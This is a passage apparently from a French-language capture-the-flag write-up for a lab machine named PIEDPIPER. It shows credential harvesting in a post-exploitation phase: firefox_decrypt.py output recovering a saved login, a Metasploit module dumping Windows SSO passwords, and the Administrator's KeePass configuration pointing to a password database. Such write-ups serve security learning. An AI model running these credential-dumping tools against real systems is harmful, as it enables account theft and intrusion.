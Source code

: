 ```plain
python2 firefox_decrypt.py /tmp/nbpe2hdg.default
2018-12-15 14:23:37,992 - WARNING - profile.ini not found in /tmp/nbpe2hdg.default
2018-12-15 14:23:37,993 - WARNING - Continuing and assuming '/tmp/nbpe2hdg.default' is a profile location

Master Password for profile /tmp/nbpe2hdg.default:
2018-12-15 14:23:39,352 - WARNING - Attempting decryption with no Master Password

Website:   http://127.0.0.1:5080
Username: 'dinesh'
Password: 'gRv5Be2Min9Hc091263x10KcdffGG'
```

```plain
msf post(windows/gather/credentials/sso) > run

[*] Running module against PIEDPIPER
Windows SSO Credentials
=======================

AuthID    Package  Domain     User      Password
------    -------  ------     ----      --------
0;131384  NTLM     PIEDPIPER  Gilfoyle  h@ck7h380x-3mrgnc3
0;154359  NTLM     PIEDPIPER  nginx     H73BpUY2Uq9U-Yugyt5FYUbY0-U87t87
0;244078  NTLM     PIEDPIPER  Gilfoyle
0;421083  NTLM     PIEDPIPER  nginx
0;466499  NTLM     PIEDPIPER  Nelson

[*] Post module execution completed
```

Tout cela n'a mené une fois de plus nul part. En revanche on trouve la configuration pour le KeePass de l'administrateur (*KeePass.config.xml* dans *C:\Users\Administrator\AppData\Roaming\KeePass*) :  

```html
    <Application>
        <LastUsedFile>
            <Path>..\..\Users\Administrator\Desktop\root.txt:Zone.Identifier</Path>
            <CredProtMode>Obf</CredProtMode>
            <CredSaveMode>NoSave</CredSaveMode>
        </LastUsedFile>
        <MostRecentlyUsed>
            <MaxItemCount>12</MaxItemCount>
            <Items>
                <ConnectionInfo>
                    <Path>..\..\Users\Administrator\Desktop\chest.kdbx</Path>
                    <CredProtMode>Obf</CredProtMode>
                    <CredSaveMode>NoSave</CredSaveMode>
                </ConnectionInfo>
            </Items>
        </MostRecentlyUsed>
        <WorkingDirectories>
            <Item>Database@..\..\Users\Administrator\Desktop</Item>
            <Item>KeyFile@..\..\Users\Administrator\Desktop</Item>
        </WorkingDirectories>
        <Start>
            <CheckForUpdate>false</CheckForUpdate>
            <CheckForUpdateConfigured>true</CheckForUpdateConfigured>
        </Start>
        <FileOpening />
        <FileClosing />
        <TriggerSystem>
            <Triggers />
        </TriggerSystem>
        <PluginCompatibility />
```